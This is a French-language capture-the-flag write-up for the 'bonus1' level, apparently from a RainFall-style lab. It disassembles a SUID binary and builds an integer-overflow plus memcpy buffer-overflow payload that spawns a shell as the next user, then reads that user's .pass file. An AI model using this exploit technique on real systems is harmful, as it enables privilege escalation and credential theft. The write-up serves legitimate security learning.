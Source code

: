 ## Analyse
- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
  [...]
  ```
  - On a un binaire appartenant a bonus2 dans le home avec les droits SUID.

- `./bonus1`
  ```
  Segmentation fault (core dumped)
  ```
  - Le programme segfault sans arguments

- `./bonus1 test`
  ```
  ```
  - Le programme se termine sans rien afficher

- `gdb bonus1`
  - `set disassembly-flavor intel`
  - `info function`
    ```
    [...]
      0x08048424  main
    [...]
    ```
    - On ne trouve rien d'autre que la fonction main

  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x08048424 <+0>:     push   ebp
       0x08048425 <+1>:     mov    ebp,esp
       0x08048427 <+3>:     and    esp,0xfffffff0
       0x0804842a <+6>:     sub    esp,0x40
       0x0804842d <+9>:     mov    eax,DWORD PTR [ebp+0xc]
       0x08048430 <+12>:    add    eax,0x4
       0x08048433 <+15>:    mov    eax,DWORD PTR [eax]
       0x08048435 <+17>:    mov    DWORD PTR [esp],eax
       0x08048438 <+20>:    call   0x8048360 <atoi@plt>
       0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax
       0x08048441 <+29>:    cmp    DWORD PTR [esp+0x3c],0x9
       0x08048446 <+34>:    jle    0x804844f <main+43>
       0x08048448 <+36>:    mov    eax,0x1
       0x0804844d <+41>:    jmp    0x80484a3 <main+127>
       0x0804844f <+43>:    mov    eax,DWORD PTR [esp+0x3c]
       0x08048453 <+47>:    lea    ecx,[eax*4+0x0]
       0x0804845a <+54>:    mov    eax,DWORD PTR [ebp+0xc]
       0x0804845d <+57>:    add    eax,0x8
       0x08048460 <+60>:    mov    eax,DWORD PTR [eax]
       0x08048462 <+62>:    mov    edx,eax
       0x08048464 <+64>:    lea    eax,[esp+0x14]
       0x08048468 <+68>:    mov    DWORD PTR [esp+0x8],ecx
       0x0804846c <+72>:    mov    DWORD PTR [esp+0x4],edx
       0x08048470 <+76>:    mov    DWORD PTR [esp],eax
       0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
       0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
       0x08048480 <+92>:    jne    0x804849e <main+122>
       0x08048482 <+94>:    mov    DWORD PTR [esp+0x8],0x0
       0x0804848a <+102>:   mov    DWORD PTR [esp+0x4],0x8048580
       0x08048492 <+110>:   mov    DWORD PTR [esp],0x8048583
       0x08048499 <+117>:   call   0x8048350 <execl@plt>
       0x0804849e <+122>:   mov    eax,0x0
       0x080484a3 <+127>:   leave  
       0x080484a4 <+128>:   ret    
    End of assembler dump.
    ```

  - <+0> ... <+6>
    - Initialisation de la mémoire (libère 64 octets pour la stack), alignement de la stack<br/><br/>
  - <+9>...<+25>
    - Prépare les arguments pour l'appel de atoi
    - Stocke le pointeur de argv (ebp+0xc) dans eax
    - Ajoute 4 pour atteindre argv[1]
    - Transfert la valeur de argv[1] dans EAX
    - Transfert la valeur de argv[1] (EAX) dans ESP
    - Appel atoi avec argv[1] en argument
    - Stocke le retour dans esp+0x3c<br/><br/>
  - <+29>...<+34>
    - Compare le retour du atoi avec la valeur 9
    - Si la valeur est inferieur ou egale a 9 on jump a l'instruction <main+43><br/><br/>
  - <+36>...<+41>
    - Met la valeur 1 dans eax pour la préparation du return(1)
    - Jump à l'instruction <main+127><br/><br/>
  - <+43>...<+79>
    - Prepare les arguments pour l'appel de memcpy
    - Stocke le retour de atoi dans EAX
    - Multiplie le retour de atoi (EAX) par 4 et le stocke dans ECX
    - Stocke argv dans eax
    - Ajoute 8 a argv pour arriver sur argv[2]
    - Stocke la valeur argv[2] (EAX) dans EAX
    - Stocke argv[2] (EAX) dans EDX
    - Met la valeur d'un pointeur sur l'espace aloué au debut qui se situe a ESP+14.
      Qui fait que nous donnons un pointeur sur un char * d'une taille de 0x3c(retour de atoi)- 0x14 (adresse char*) = 40.
    - Stocke le retour d'atoi * 4 (ECX) en 3eme argument du memcpy
    - Stocke argv[2] (EDX) en 2eme argument du memcpy
    - Stocke le pointeur sur le char[40] en premier argument du memcpy
    - Appel memcpy(char[40], argv[2],  a*4)<br/><br/>
  - <+84>...<+92>
    - Compare le retour de atoi (ESP+0x3c) avec la valeur 1464814662
    - Si le retour du atoi n'est pas egale avec cette valeur jump a <main+122><br/><br/>
  - <+94>...<+117>
    - Prepare les arguments pour l'appel de execl
    - Stocke 0 en 3eme argument de execl qui est equivalent a NULL comme execl prends des char en argument
    - `x/10s 0x8048580`
      ```asm
      0x8048580:       "sh"
      0x8048583:       "/bin/sh"
      ```
    - Stocke "sh" en 2nd argument
    - Stocke "/bin/sh" en 1er argument
    - Appel execl("/bin/sh", "sh", NULL)<br/><br/>
  - <+122>...<+128>
    - Return 0
    - Réinitialisation de la mémoire, fin d'exécution<br/><br/>
## Exploit

Après analyse, nous comprenons que pour obtenir notre flag il faut donner en input un nombre dont la valeur doit être inférieure ou égale à 9. Plus loin, cette valeur doit être égale a 0x574f4c46 (1464814662).

Nous voyons aussi que le memcpy() n'est pas protegé. En effet notre string b fait 40, et si notre argv[2] fait plus de 40 nous avons un SegFault. 

- `gdb bonus1`
  - `set disassembly-flavor intel`
  - `r -2 $(python -c 'print "A" * 44')`
    ```
    Program received signal SIGSEGV, Segmentation fault.
    0xb7f65ef5 in ?? () from /lib/i386-linux-gnu/libc.so.6
    ```
  - `info registers`
    ```
    (gdb) info registers
    eax            0xbfffff8a       -1073741942
    ecx            0xfffffddc       -548
    edx            0xbffffd80       -1073742464
    ebx            0xb7fd0ff4       -1208152076
    esp            0xbffffbc8       0xbffffbc8
    ebp            0xbffffc18       0xbffffc18
    esi            0x0      0
    edi            0x0      0
    eip            0xb7f65ef5       0xb7f65ef5
    eflags         0x210282 [ SF IF RF ID ]
    cs             0x73     115
    ss             0x7b     123
    ds             0x7b     123
    es             0x7b     123
    fs             0x0      0
    gs             0x33     51
    ```

b fait une taille de 40 et en écrivant 4 octets de plus, nous réécrivons a.
Pour avoir notre shell, notre a doit valoir 0x574f4c46 (1464814662), ca sera donc notre second argument:
```c
$(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
```

Maintenant le souci que nous avons est que la taille copiée par notre memcpy est de maximum 9 * 4 = 36 mais de notre côté nous voulons copier une taille de 44.

Un nombre negatif multiplié par 4 donne toujours un nombre negatif, cependant nous sommes en presence d'integer et nous avons :

**INT_MIN**  = -2147483647 - 1<br/>
**INT_MAX** = 2147483647

La raison de cette difference est la présence d'un bit de signe et nous pouvons abuser de cette particularité pour effectuer un [integer overflow](https://fr.wikipedia.org/wiki/D%C3%A9passement_d%27entier) afin avoir une valeur supérieure à 9.

Nous utilisons donc [le code python suivant](https://stackoverflow.com/questions/47100105/forcing-integer-overflow-in-python) pour forcer le cast en int et trouver la valeur avec laquelle nous obtenons un integer overflow pour avoir la valeur 44.
```python
>>> print((-2147483637*4) % 2**32)
44
```

- `./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')`
  ```
  ```
  - `whoami`
    ```
    bonus2
    ```
  - `cat /home/user/bonus2/.pass`
    ```
    579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
    ```
